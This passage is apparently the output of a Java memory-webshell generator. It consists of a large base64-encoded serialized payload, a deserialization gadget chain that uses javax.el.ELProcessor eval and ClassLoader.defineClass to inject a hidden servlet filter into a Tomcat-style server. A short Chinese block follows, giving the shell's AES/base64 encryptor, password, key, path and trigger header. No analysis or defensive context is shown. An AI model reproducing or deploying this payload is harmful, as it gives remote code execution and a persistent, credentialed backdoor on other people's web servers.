QVUJBQWRTUlZGVlJWTlVDQUQzQVFBTllXUmtWVkpNVUdGMGRHVnliZ2dBK1F3QUJRQUdDZ0FDQVBzQkFEQnZjbWN1WVhCaFkyaGxMbU5oZEdGc2FXNWhMbU52Y21VdVFYQndiR2xqWVhScGIyNUdhV3gwWlhKRGIyNW1hV2NJQVAwQkFCZG5aWFJFWldOc1lYSmxaRU52Ym5OMGNuVmpkRzl5Y3dFQUlpZ3BXMHhxWVhaaEwyeGhibWN2Y21WbWJHVmpkQzlEYjI1emRISjFZM1J2Y2pzTUFQOEJBQW9BYndFQkFRQU5jMlYwVlZKTVVHRjBkR1Z5YmdnQkF3RUFFbUZrWkVacGJIUmxjazFoY0VKbFptOXlaUWdCQlFFQURHRmtaRVpwYkhSbGNrMWhjQWdCQndFQUhXcGhkbUV2YkdGdVp5OXlaV1pzWldOMEwwTnZibk4wY25WamRHOXlCd0VKQ2dFS0FMb0JBQ2NvVzB4cVlYWmhMMnhoYm1jdlQySnFaV04wT3lsTWFtRjJZUzlzWVc1bkwwOWlhbVZqZERzTUFNUUJEQW9CQ2dFTkFRQU5abWxzZEdWeVEyOXVabWxuY3dnQkR3RUFEV3BoZG1FdmRYUnBiQzlOWVhBSEFSRUJBQU53ZFhRQkFEZ29UR3BoZG1FdmJHRnVaeTlQWW1wbFkzUTdUR3BoZG1FdmJHRnVaeTlQWW1wbFkzUTdLVXhxWVhaaEwyeGhibWN2VDJKcVpXTjBPd3dCRXdFVUN3RVNBUlVCQUE5d2NtbHVkRk4wWVdOclZISmhZMlVNQVJjQUZ3b0FHUUVZQVFBZ1cweHFZWFpoTDJ4aGJtY3ZjbVZtYkdWamRDOURiMjV6ZEhKMVkzUnZjanNIQVJvQkFCWnpkVzR1Yldsell5NUNRVk5GTmpSRVpXTnZaR1Z5Q0FFY0FRQU1aR1ZqYjJSbFFuVm1abVZ5Q0FFZUFRQUpaMlYwVFdWMGFHOWtEQUVnQUxNS0FHOEJJUUVBRUdwaGRtRXVkWFJwYkM1Q1lYTmxOalFJQVNNQkFBcG5aWFJFWldOdlpHVnlDQUVsQVFBR1pHVmpiMlJsQ0FFbkFRQWRhbUYyWVM5cGJ5OUNlWFJsUVhKeVlYbFBkWFJ3ZFhSVGRISmxZVzBIQVNrS0FTb0FHZ0VBSEdwaGRtRXZhVzh2UW5sMFpVRnljbUY1U1c1d2RYUlRkSEpsWVcwSEFTd0JBQVVvVzBJcFZnd0FFd0V1Q2dFdEFTOEJBQjFxWVhaaEwzVjBhV3d2ZW1sd0wwZGFTVkJKYm5CMWRGTjBjbVZoYlFjQk1RRUFHQ2hNYW1GMllTOXBieTlKYm5CMWRGTjBjbVZoYlRzcFZnd0FFd0V6Q2dFeUFUUUJBQVJ5WldGa0FRQUZLRnRDS1VrTUFUWUJOd29CTWdFNEFRQUZkM0pwZEdVQkFBY29XMEpKU1NsV0RBRTZBVHNLQVNvQlBBRUFDM1J2UW5sMFpVRnljbUY1QVFBRUtDbGJRZ3dCUGdFL0NnRXFBVUFCQUFSblpYUkdBUUEvS0V4cVlYWmhMMnhoYm1jdlQySnFaV04wTzB4cVlYWmhMMnhoYm1jdlUzUnlhVzVuT3lsTWFtRjJZUzlzWVc1bkwzSmxabXhsWTNRdlJtbGxiR1E3REFGQ0FVTUtBQUlCUkFFQUYycGhkbUV2YkdGdVp5OXlaV1pzWldOMEwwWnBaV3hrQndGR0NnRkhBTG9LQVVjQWFBRUFIbXBoZG1FdmJHRnVaeTlPYjFOMVkyaEdhV1ZzWkVWNFkyVndkR2x2YmdjQlNnRUFFR2RsZEVSbFkyeGhjbVZrUm1sbGJHUUJBQzBvVEdwaGRtRXZiR0Z1Wnk5VGRISnBibWM3S1V4cVlYWmhMMnhoYm1jdmNtVm1iR1ZqZEM5R2FXVnNaRHNNQVV3QlRRb0Fid0ZPQVFBTloyVjBVM1Z3WlhKamJHRnpjd3dCVUFCckNnQnZBVkVLQVVzQUZRRUFFbWRsZEVSbFkyeGhjbVZrVFdWMGFHOWtjd0VBSFNncFcweHFZWFpoTDJ4aGJtY3ZjbVZtYkdWamRDOU5aWFJvYjJRN0RBRlVBVlVLQUc4QlZnb0F0d0JOQVFBR1pYRjFZV3h6REFGWkFIUUtBQkFCV2dFQUVXZGxkRkJoY21GdFpYUmxjbFI1Y0dWekFRQVVLQ2xiVEdwaGRtRXZiR0Z1Wnk5RGJHRnpjenNNQVZ3QlhRb0F0d0ZlQ2dBOEFCVUJBQXBuWlhSTlpYTnpZV2RsREFGaEFBWUtBRG9CWWdvQWlRQVZBUUFiVzB4cVlYWmhMMnhoYm1jdmNtVm1iR1ZqZEM5TlpYUm9iMlE3QndGbEFRQUlQR05zYVc1cGRENEtBQUlBR2dFQUJFTnZaR1VCQUFwRmVHTmxjSFJwYjI1ekFRQU5VM1JoWTJ0TllYQlVZV0pzWlFFQUNWTnBaMjVoZEhWeVpRQWhBQUlBQkFBQUFBQUFFQUFCQUFVQUJnQUJBV2tBQUFBUEFBRUFBUUFBQUFNU0NMQUFBQUFBQUFFQUNRQUdBQUVCYVFBQUFBOEFBUUFCQUFBQUF4SUxzQUFBQUFBQUFRQU1BQVlBQWdGcEFBQUFGZ0FEQUFFQUFBQUt1d0FRV1JJU3R3QVdzQUFBQUFBQmFnQUFBQVFBQVFBT0FBRUFFd0FYQUFFQmFRQUFBSFlBQXdBRkFBQUFOaXEzQUJzcXRnQWZUQ3U1QUNVQkFFMHN1UUFyQVFDWkFCc3N1UUF2QVFCT0tpMjNBRE02QkNvdEdRUzJBRGVuLytLbkFBUk1zUUFCQUFRQU1RQTBBQmtBQVFGckFBQUFKZ0FFL3dBUUFBTUhBQUlIQUNFSEFDY0FBQ0QvQUFJQUFRY0FBZ0FCQndBWi9BQUFCd0FFQUFFQUhBQWRBQU1CYVFBQUFma0FBd0FPQUFBQmVic0FRRm0zQUVGTUVrTVNSYmdBU2NBQVM4QUFTMDBCVGl3NkJCa0V2allGQXpZR0ZRWVZCYUlCUVJrRUZRWXlPZ2NaQjdZQVRoSlF0Z0JVbVFDekxjY0FyeGtIRWxhNEFGa1NXN2dBV1JKZHVBQlp3QUJmT2dnWkNMWUFZN2tBWmdFQU9na1pDYmtBS3dFQW1RQ0FHUW01QUM4QkFEb0tHUWdaQ3JZQWFSSmR1QUJad0FCZk9nc1pDN1lBWTdrQVpnRUFPZ3daRExrQUt3RUFtUUJOR1F5NUFDOEJBRG9OR1FzWkRiWUFhVTR0eGdBYUxiWUFiYllBY0JKeXRnQlVtUUFMS3kyNUFIWUNBRmN0eGdBYUxiWUFiYllBY0JKNHRnQlVtUUFMS3kyNUFIWUNBRmVuLzYrbi8zeW5BSGNaQjdZQWZNWUFieGtIdGdCOHRnQnR0Z0IvRW9HMkFGU2FBQllaQjdZQWZMWUFiYllBZnhLRHRnQlVtUUJKR1FlMkFId1NoYmdBV1JLSHVBQlpUaTNHQUJvdHRnQnR0Z0J3RW5LMkFGU1pBQXNyTGJrQWRnSUFWeTNHQUJvdHRnQnR0Z0J3RW5pMkFGU1pBQXNyTGJrQWRnSUFWNFFHQWFmK3ZxY0FEem9FdXdDSldSa0V0d0NNdnl1d0FBRUFHQUZvQVdzQUdRQUJBV3NBQUFCbUFBNy9BQ01BQndjQUFnY0FRQWNBU3djQUJBY0FTd0VCQUFEK0FFQUhBRU1IQUY4SEFDZitBQzhIQUFRSEFGOEhBQ2Y4QURVSEFBUWErZ0FDK0FBQytRQUNMU29hK2dBRi93QUNBQVFIQUFJSEFFQUhBRXNIQUFRQUFRY0FHZjRBQ3djQVN3RUJBV29BQUFBSUFBTUFPZ0E4QUQ0QmJBQUFBQUlBT0FBQ0FEQUFNUUFCQVdrQUFBRGhBQVlBQ0FBQUFJUUJUYmdBa3JZQWZFNHR4d0FMSzdZQWJiWUFsVTR0S3JZQWw3WUFuVTJuQUdRNkJDcTJBSis0QUtPNEFLYzZCUktaRXFrR3ZRQnZXUU1TcTFOWkJMSUFzVk5aQmJJQXNWTzJBTFU2QmhrR0JMWUF1eGtHTFFhOUFBUlpBeGtGVTFrRUE3Z0F2MU5aQlJrRnZyZ0F2MU8yQU1QQUFHODZCeGtIdGdER1RhY0FCVG9GTExBQUFnQVZBQjRBSVFBWkFDTUFmUUNBQUk0QUFRRnJBQUFBT3dBRS9RQVZCUWNBbWY4QUN3QUVCd0FDQndBRUJ3QnZCd0NaQUFFSEFCbi9BRjRBQlFjQUFnY0FCQWNBQkFjQW1RY0FHUUFCQndDTytnQUJBQUVBeHdESUFBRUJhUUFBQUM4QUF3QURBQUFBR2lzU3lyWUFWSmtBRWlzU3lyWUF6ajBySEFSZ3RnRFNzQ3V3QUFBQUFRRnJBQUFBQXdBQkdBQUJBRFFBTlFBQ0FXa0FBQUtvQUFjQUN3QUFBZFlxdGdEWlRpcTJBSmM2QkNvWkJMWUEyem9GS3hMZEJMMEFiMWtERWhCVEJMMEFCRmtER1FWVHVBRGd4Z0FFc2FjQUJUb0lFdUs0QU9XMkFNWTZCaExudUFEbHRnREdPZ2VuQURZNkNCTHB1QURsdGdER09nWVM2N2dBNWJZQXhqb0hwd0FkT2drUzZRUXR1QUR1dGdER09nWVM2d1F0dUFEdXRnREdPZ2NaQmhMd0JMMEFiMWtERWhCVEJMMEFCRmtER1FWVHVBRGdWeGtHRXZJRXZRQnZXUU1TRUZNRXZRQUVXUU1aQkZPNEFPQlhLeEwwQkwwQWIxa0RHUWEyQUcxVEJMMEFCRmtER1FaVHVBRGdWeGtIRXZBRXZRQnZXUU1TRUZNRXZRQUVXUU1aQlZPNEFPQlhHUWNTOWdTOUFHOVpBeElRVXdTOUFBUlpBeEw0VTdnQTRGY1pCeEw2QkwwQWIxa0RFaEJUQkwwQUJGa0RLcllBL0ZPNEFPQlhFdjY0QU9XMkFRSTZDS2NBTGpvSkdRY1RBUVFFdlFCdldRTVNFRk1FdlFBRVdRTXF0Z0Q4VTdnQTRGY1MvZ1F0dUFEdXRnRUNPZ2dyRXdFR0JMMEFiMWtER1FlMkFHMVRCTDBBQkZrREdRZFR1QURnVjZjQUlqb0pLeE1CQ0FTOUFHOVpBeGtIdGdCdFV3UzlBQVJaQXhrSFU3Z0E0RmNaQ0FNeUJMWUJDeGtJQXpJRnZRQUVXUU1yVTFrRUdRWlR0Z0VPT2drckV3RVF1QUJad0FFU09nb1pDaGtGR1FtNUFSWURBRmVuQUFvNkNCa0l0Z0Vac1FBR0FCTUFMZ0F5QUJrQU5BQklBRXNBR1FCTkFHRUFaQUFaQVFJQktBRXJBQmtCVmdGekFYWUFHUUIrQWNzQnpnQVpBQUVCYXdBQUFKQUFEUDRBTHdjQW1RY0FFQWNBRUVJSEFCa0JWZ2NBR2Y4QUdBQUpCd0FDQndBRUJ3QUVCd0NaQndBUUJ3QVFBQUFIQUJrQUFRY0FHZjhBR1FBSUJ3QUNCd0FFQndBRUJ3Q1pCd0FRQndBUUJ3QUVCd0FFQUFEM0FLd0hBQm44QUNvSEFSdGZCd0FaSHY4QU9BQUlCd0FDQndBRUJ3QUVCd0NaQndBUUJ3QVFCd0FFQndBRUFBRUhBQm44QUFZSEFBUUJhZ0FBQUF3QUJRQStBRHdBT2dEVUFOWUFBUURYQUhvQUFnRnBBQUFBWmdBQ0FBUUFBQUE0RWtNU1JiZ0FTY0FBUzhBQVMwd0JUUU0rSFN1K29nQWhLeDB5dGdCT0VsQzJBRlNaQUEwckhUSzJBSHhOcHdBSmhBTUJwLy9mTExBQUFBQUJBV3NBQUFBY0FBUCtBQklIQUVzRkFSMy9BQVVBQkFjQUFnY0FTd2NBbVFFQUFBRnFBQUFBQ0FBREFEd0FQZ0E2QUFnQW9BQ2hBQUlCYVFBQUFJOEFCZ0FFQUFBQWJ4TUJIYmdBNVV3ckV3RWZCTDBBYjFrREVoQlR0Z0VpSzdZQXhnUzlBQVJaQXlwVHRnRER3QUNyd0FDcnNFMFRBU1M0QU9WTUt4TUJKZ085QUcrMkFTSUJBNzBBQkxZQXcwNHR0Z0J0RXdFb0JMMEFiMWtERWhCVHRnRWlMUVM5QUFSWkF5cFR0Z0REd0FDcndBQ3JzQUFCQUFBQUxBQXRBQmtBQVFGckFBQUFCZ0FCYlFjQUdRRnFBQUFBQ2dBRUFOUUFQQUErQURvQUNRQ2tBS1VBQWdGcEFBQUFiQUFFQUFZQUFBQSt1d0VxV2JjQksweTdBUzFaS3JjQk1FMjdBVEpaTExjQk5VNFJBUUM4Q0RvRUxSa0V0Z0U1V1RZRm13QVBLeGtFQXhVRnRnRTlwLy9ySzdZQlFiQUFBQUFCQVdzQUFBQWNBQUwvQUNFQUJRY0Fxd2NCS2djQkxRY0JNZ2NBcXdBQS9BQVhBUUZxQUFBQUJBQUJBQTRBQ0FCWEFFY0FBZ0ZwQUFBQUhRQUNBQU1BQUFBUktpdTRBVVZOTEFTMkFVZ3NLcllCU2JBQUFBQUFBV29BQUFBRUFBRUFHUUFJQVVJQlF3QUNBV2tBQUFCUEFBTUFCQUFBQUNncXRnQnRUU3pHQUJrc0s3WUJUMDR0QkxZQlNDMndUaXkyQVZKTnAvL3B1d0ZMV1N1M0FWTy9BQUVBQ1FBVkFCWUJTd0FCQVdzQUFBQU5BQVA4QUFVSEFHOVFCd0ZMQ0FGcUFBQUFCQUFCQVVzQUtBQkdBRWNBQWdGcEFBQUFHZ0FFQUFJQUFBQU9LaXNEdlFCdkE3MEFCTGdBNExBQUFBQUFBV29BQUFBSUFBTUFQQUE2QUQ0QUtRQkdBTjRBQWdGcEFBQUJJd0FEQUFrQUFBREtLc0VBYjVrQUNpckFBRytuQUFjcXRnQnRPZ1FCT2dVWkJEb0dHUVhIQUdRWkJzWUFYeXpIQUVNWkJyWUJWem9IQXpZSUZRZ1pCNzZpQUM0WkJ4VUlNcllCV0N1MkFWdVpBQmtaQnhVSU1yWUJYNzZhQUEwWkJ4VUlNam9GcHdBSmhBZ0JwLy9RcHdBTUdRWXJMTFlBdFRvRnAvK3BPZ2NaQnJZQlVqb0dwLytkR1FYSEFBeTdBRHhaSzdjQllMOFpCUVMyQUxzcXdRQnZtUUFhR1FVQkxiWUF3N0E2QjdzQWlWa1pCN1lCWTdjQlpMOFpCU290dGdERHNEb0h1d0NKV1JrSHRnRmp0d0ZrdndBREFDVUFjZ0IxQUR3QW5BQ2pBS1FBT2dDekFMb0F1d0E2QUFFQmF3QUFBQzhBRGc1REJ3QnYvZ0FJQndCdkJ3QzNCd0J2L1FBWEJ3Rm1BU3dGK1FBQ0NFSUhBRHdMRFZRSEFEb09Sd2NBT2dGcUFBQUFDQUFEQUR3QVBnQTZBQWdCWndBWEFBRUJhUUFBQUJVQUFnQUFBQUFBQ2JzQUFsbTNBV2hYc1FBQUFBQUFBQT09Jyk7dmFyIGE9SmF2YS50eXBlKCdpbnQnKS5jbGFzczt2YXIgbT1qYXZhLmxhbmcuQ2xhc3NMb2FkZXIuY2xhc3MuZ2V0RGVjbGFyZWRNZXRob2QoJ2RlZmluZUNsYXNzJyxKYXZhLnR5cGUoJ2J5dGVbXScpLmNsYXNzLGEsYSk7bS5zZXRBY2Nlc3NpYmxlKHRydWUpO20uaW52b2tlKGphdmEubGFuZy5UaHJlYWQuY3VycmVudFRocmVhZCgpLmdldENvbnRleHRDbGFzc0xvYWRlcigpLGIsMCxiLmxlbmd0aCkubmV3SW5zdGFuY2UoKTt9Y2F0Y2ggKGUpe30iKX1wB1tvYmplY3RDMCdvcmcuZXhhbXBsZS5sYWJ5cmludGgubW9kZWwuQ3VzdG9tUHJveHmSAWgCbTNgQxhzdW4udHJhY2luZy5OdWxsUHJvdmlkZXKTBnByb2Jlcwxwcm92aWRlclR5cGUGYWN0aXZlYUhDGGphdmEubGFuZy5yZWZsZWN0Lk1ldGhvZJ4Sc2VjdXJpdHlDaGVja0NhY2hlDm1ldGhvZEFjY2Vzc29yEWFubm90YXRpb25EZWZhdWx0FHBhcmFtZXRlckFubm90YXRpb25zC2Fubm90YXRpb25zDmV4Y2VwdGlvblR5cGVzDnBhcmFtZXRlclR5cGVzCG92ZXJyaWRlBHJvb3QJbW9kaWZpZXJzCnJldHVyblR5cGUEbmFtZQRzbG90BWNsYXp6Yk5OTk5OcBBbamF2YS5sYW5nLkNsYXNzcZJDD2phdmEubGFuZy5DbGFzc5EEbmFtZWMQamF2YS5sYW5nLk9iamVjdEZiTk5OTk5RllGXRk7MAWMDaW50CWNvbXBhcmVUb5BjFGphdmEubGFuZy5Db21wYXJhYmxlzAFRmgljb21wYXJlVG+QUZtDHnN1bi50cmFjaW5nLmR0cmFjZS5EVHJhY2VQcm9iZZQKcGFyYW1ldGVycwVwcm94eRNpbXBsZW1lbnRpbmdfbWV0aG9kD2RlY2xhcmVkX21ldGhvZGROQxRqYXZheC5lbC5FTFByb2Nlc3NvcpMHZmFjdG9yeQdjb250ZXh0B21hbmFnZXJlQzAjb3JnLmFwYWNoZS5lbC5FeHByZXNzaW9uRmFjdG9yeUltcGyQZkMaamF2YXguZWwuU3RhbmRhcmRFTENvbnRleHScD2xhbWJkYUFyZ3VtZW50cwlsaXN0ZW5lcnMNaW1wb3J0SGFuZGxlcgNtYXAGbG9jYWxlCmxvY2FsQmVhbnMPY3VzdG9tUmVzb2x2ZXJzEHN0YW5kYXJkUmVzb2x2ZXIOZnVuY3Rpb25NYXBwZXIOdmFyaWFibGVNYXBwZXIOd3JhcHBlZENvbnRleHQIcmVzb2x2ZWRncBRqYXZhLnV0aWwuQXJyYXlEZXF1ZU5OTk5IWkMcamF2YXguZWwuQ29tcG9zaXRlRUxSZXNvbHZlcpIJcmVzb2x2ZXJzBHNpemVoVhRbamF2YXguZWwuRUxSZXNvbHZlcphOTk5OTk5OTpBoVpSgQxtqYXZheC5lbC5CZWFuTmFtZUVMUmVzb2x2ZXKREGJlYW5OYW1lUmVzb2x2ZXJpQzAzamF2YXguZWwuU3RhbmRhcmRFTENvbnRleHQkU3RhbmRhcmRCZWFuTmFtZVJlc29sdmVykQViZWFuc2pRoVGiQzApb3JnLmFwYWNoZS5lbC5zdHJlYW0uU3RyZWFtRUxSZXNvbHZlckltcGyQa0MeamF2YXguZWwuU3RhdGljRmllbGRFTFJlc29sdmVykGxDFmphdmF4LmVsLk1hcEVMUmVzb2x2ZXKRCHJlYWRPbmx5bUZDMCFqYXZheC5lbC5SZXNvdXJjZUJ1bmRsZUVMUmVzb2x2ZXKQbkMXamF2YXguZWwuTGlzdEVMUmVzb2x2ZXKRCHJlYWRPbmx5b0ZDGGphdmF4LmVsLkFycmF5RUxSZXNvbHZlcpEIcmVhZE9ubHlPoEZDF2phdmF4LmVsLkJlYW5FTFJlc29sdmVykgVjYWNoZQhyZWFkT25seU+hQzAnamF2YXguZWwuQmVhbkVMUmVzb2x2ZXIkQ29uY3VycmVudENhY2hlkwhsb25ndGVybQRlZGVuBHNpemVPokhaTTAmamF2YS51dGlsLmNvbmN1cnJlbnQuQ29uY3VycmVudEhhc2hNYXBay+hGTk5OTk5OTplDMDFqYXZheC5lbC5TdGFuZGFyZEVMQ29udGV4dCRTdGFuZGFyZEZ1bmN0aW9uTWFwcGVykQdtZXRob2RzT6NIWkMwMWphdmF4LmVsLlN0YW5kYXJkRUxDb250ZXh0JFN0YW5kYXJkVmFyaWFibGVNYXBwZXKRBHZhcnNPpE5ORkMSamF2YXguZWwuRUxNYW5hZ2VykQdjb250ZXh0T6VRn2JOTk5OTnCScZJjEGphdmEubGFuZy5TdHJpbmdGYk5OTk5OUbdRuEZOkVGYBGV2YWySYxRqYXZheC5lbC5FTFByb2Nlc3NvcpFRmARldmFsklG7TlpRm1RRlXCRWg==)}}
```



```txt
基础信息:
加密器: JAVA_AES_BASE64
密码: CwHkwlKcuu
密钥: DCjbbquPTU
请求路径: /*
请求头: Accept: HPncVeC
```



